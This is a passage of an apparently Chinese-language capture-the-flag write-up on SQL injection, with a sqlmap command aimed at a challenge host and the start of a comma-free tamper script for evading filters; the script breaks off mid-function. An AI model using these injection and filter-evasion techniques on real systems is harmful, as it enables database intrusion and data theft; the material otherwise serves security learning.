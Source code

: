 但是你这里会发现只出现了 id，其实还有其他的但是位置不够显示不出来，这里我们用不了 concat 因为我们不知道其他字段的名字不能联合，concat_ws 也不能用因为这个函数有逗号会失效，这里我就直接使用 group_concat() 直接把所有字段连在一起显示出来而且不需要用到逗号

![](http://upload-images.jianshu.io/upload_images/1905688-69dcc2c37ba5b370.png) image.png

参考：[https://www.jianshu.com/p/5d34b3722128](https://www.jianshu.com/p/5d34b3722128)  
利用 sqlmap tamper 解决过滤逗号问题  
python [sqlmap.py](https://links.jianshu.com/go?to=http%3A%2F%2Fsqlmap.py) -u "[http://81abba4bbfd54553ab84f1969f4479dc0e3ad323bdca49b0.changame.ichunqiu.com/l0gin.php?id=1](https://links.jianshu.com/go?to=http%3A%2F%2F81abba4bbfd54553ab84f1969f4479dc0e3ad323bdca49b0.changame.ichunqiu.com%2Fl0gin.php%3Fid%3D1)" -p id --level 3 --risk 3 --tamper=commalessmysql -v3 -D sqli -T users --columns

commalessmysql.py

```
#!/usr/bin/env python

"""
Writed by Ovie 2016-12-05

"""
import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces some instances with something whthout comma 

    Requirement:
        * MySQL

    Tested against:
        * MySQL 5.0
            
    
    >>> tamper('ISNULL(TIMESTAMPADD(MINUTE,7061,NULL))')
    'ISNULL(NULL)'
    
    >>> tamper('MID(VERSION(), 2, 1)')
    'MID(VERSION() FROM 2 FOR 1)'

    >>> tamper('IF(26=26,0,5)')
    'CASE WHEN 26=26 THEN 0 ELSE 5 END'
    
    >>> tamper('IFNULL(NULL,0x20)')
    'CASE WHEN NULL=NULL THEN 0x20 ELSE NULL END'
    
    >>> tamper('LIMIT 2, 3')
    'LIMIT 3 OFFSET 2'
    """

    
    def commalessif(payload):
        if payload and payload.find("IF") > -1:
            while payload.find("IF(") > -1:
                index = payload.find("IF(")
                depth = 1
                comma1, comma2, end = None, None, None

```